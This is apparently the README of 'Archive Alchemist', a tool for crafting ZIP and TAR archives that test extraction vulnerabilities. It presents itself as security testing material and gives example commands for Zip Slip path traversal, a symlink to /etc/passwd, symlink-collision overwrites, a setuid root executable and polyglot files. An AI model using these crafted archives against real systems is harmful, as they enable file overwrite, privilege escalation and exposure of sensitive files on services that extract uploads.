

# Archive Alchemist

Archive Alchemist is a tool for creating specially crafted archives to test extraction vulnerabilities.

<!-- ASCII art by jgs from https://ascii.co.uk/art/science -->

## Features

- Create ZIP and TAR archives with malicious patterns
- Support for path traversal attacks
- Support for symlinks and hardlinks
- Ability to set special permission bits (setuid, setgid, sticky bit)
- Fine-grained control over file attributes (mode, uid, gid, mtime)
- Multiple manipulation commands: add, replace, append, modify
- Multiple helper commands: extract, list, read
- Create polyglot files (prepend archive with data + adjust headers)

## Installation

```bash
# Clone the repository
git clone https://github.com/avlidienbrunn/archivealchemist.git
cd archivealchemist

# Make the script executable
chmod +x archive-alchemist.py

# Optional: create a symlink to use globally
sudo ln -s $(pwd)/archive-alchemist.py /usr/local/bin/archive-alchemist
```

## Usage

See [Documentation](docs/index.md)


### Tips

#### Suggested working directory setup

The most convenient way to test multiple payloads/tests for an archive is to use a local working directory and the `replace` command with `--content-directory` flag to "sync" the local directory to the archive:

1. Extract into working directory: `./archive-alchemist.py target.zip extract -o workingdir/`
2. Make changes to file(s) in `workingdir/`
3. Build archive from working directory: `./archive-alchemist.py target_poc.zip replace --content-directory workingdir/ ""`
4. Test using `target_poc.zip`
5. GOTO #2

#### Blind detect symlink support

If you know that the target service uses `bla/file.json`, you can:
1. Extract into working directory: `./archive-alchemist.py target.zip extract -o workingdir/`
2. Copy `workingdir/bla/file.json` to `workingdir/bla/file2.json`
3. Build archive from working directory: `./archive-alchemist.py target_poc.zip add --content-directory workingdir/ ""`
4. Change `bla/file.json` to a symlink to `bla/file2.json`: `./archive-alchemist.py target_poc.zip replace --symlink file2.json "bla/file.json"`
5. Test using `target_poc.zip`. If it works normally, the target likely supports symlinks!

#### Blind detect path traversal support

If you know that the target service uses `bla/file.json`, you can:
1. Extract into working directory: `./archive-alchemist.py target.zip extract -o workingdir/`
2. Copy `workingdir/bla/file.json` to `workingdir/bla/blu/file.json`
3. Build archive from working directory: `./archive-alchemist.py target_poc.zip add --content-directory workingdir/ ""`
4. Add `bla/blu/../file.json` to the archive: `./archive-alchemist.py target_poc.zip add --content-file "workingdir/bla/blu/file.json" "bla/blu/../file.json"`
5. Test using `target_poc.zip`. If it works normally, the target likely supports path traversal! (Although there might be additional checks to make sure that you dont traverse outside of the target directory)

#### Blind detect absolute path support

I havent really come up with a good generic way to test for this, but you could try changing `some/file.txt` to `/proc/self/cwd/some/file.txt`, and see if that works. Relying on proc filesystem and hoping that its cwd is the same as the extraction directory is not ideal, but its something.

### Examples for Security Testing

#### Zip Slip Attack

```bash
# Create a zip with path traversal payload
./archive-alchemist.py zipslip.zip add "../../../tmp/evil.txt" --content "I escaped the extraction directory!"
```

#### Symlink Attack

```bash
# Create a tar with a symlink pointing to a sensitive file
./archive-alchemist.py symlink_attack.tar -t tar add .bashrc --symlink "/etc/passwd"
```

#### File Collisions with Symlinks

```bash
# First add a symlink
./archive-alchemist.py collision.tar -t tar add config.txt --symlink "/tmp/target.txt"

# Then add a regular file with the same name (will be extracted last)
./archive-alchemist.py collision.tar -t tar add config.txt --content "Overwrite after symlink is created"
```

#### Setuid Executable

```bash
# Create a setuid executable
./archive-alchemist.py setuid_attack.tar -t tar add exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0
```

#### Polyglot File

```bash
# Create a file that's a valid ZIP and starts with GIF magic bytes
./archive-alchemist.py polyglot.gif add payload.txt --content "hello there"
./archive-alchemist.py polyglot.gif polyglot --content "GIF89aI am totally a GIF file"
```

#### Unicode Path vs file name confusion

```bash
# Create a zip that has file.txt in local file header and notfile.txt in Unicode Path extra field
./archive-alchemist.py weird.zip add file.txt --content "hello there" --unicodepath notfile.txt
```
